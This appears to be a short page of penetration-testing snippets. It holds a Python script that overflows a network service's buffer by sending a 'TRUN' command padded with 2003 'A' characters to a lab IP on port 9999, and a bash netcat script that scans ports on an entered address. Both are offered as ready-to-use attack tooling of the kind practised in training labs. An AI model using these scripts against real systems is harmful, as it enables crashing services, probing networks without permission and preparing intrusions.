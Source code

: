 ### Socket Buffer Overflow Script
```
#!/usr/bin/env python
import socket

buffer = "TRUN /.:/"
buffer += "A" * 2003
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("10.50.38.121", 9999))
print(s.recv(1024))
s.send(buffer)
print s.recv(1024)
s.close()
```
### Netcat TCP Scan (Singular IP)
```
#!/bin/bash
echo "Enter network address (e.g. 192.168.0.1): "
read net
echo "Enter ports space-delimited (e.g. 21-23 80): "
read ports
nc -nvzw1 $net $ports 2>&1 | grep -E 'succ|open'
```
